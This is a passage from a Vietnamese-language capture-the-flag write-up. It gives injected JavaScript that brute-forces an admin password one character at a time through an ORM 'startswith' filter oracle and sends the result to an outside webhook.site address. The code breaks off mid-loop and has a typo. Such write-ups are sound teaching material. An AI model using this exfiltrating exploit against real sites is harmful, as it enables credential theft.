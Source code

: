 ![image](./images/image62.png)

Ok thì mình đã leak được từ terminal nhưng mình cần leak từ web nên mình sẽ chèn đoạn js giống trên để contract_manager fetch
    
```js
const chr = "abcdefghijklmnopqrstuvwxyz";
let full = false;
let admin_pass = '';
let webhook = 'https://webhook.site/879c2788-e869-47ee-ba66-5a56f0939a97';

while (!full) {
    for (let i = 0; i < chr.length; i++) {
        const testPassword = admin_pass + chr[i];
        const prefixResponse = await fetch(`/contracts/manage?owner__password__startswith=${testPassword}&owner__username=admin`);
        const prefixData = await prefixResponse.text();
        if (!prefixData.includes('No contracts found based on the current filter.')) {
            admin_pass += chr[i];
            const fullResponse = await fetch(`/contracts/manage?owner__password=${admin_pass}&owner__username=admin`);
            constfullData  = await fullResponse.text();
            if (!fullData.includes('No contracts found based on the current filter.')) {
                full = true;
                console.log(`Password found: ${admin_pass}`);
                await fetch(`${webhook}?x=${encodeURIComponent(admin_pass)}`);
                return;
            }
            break;
```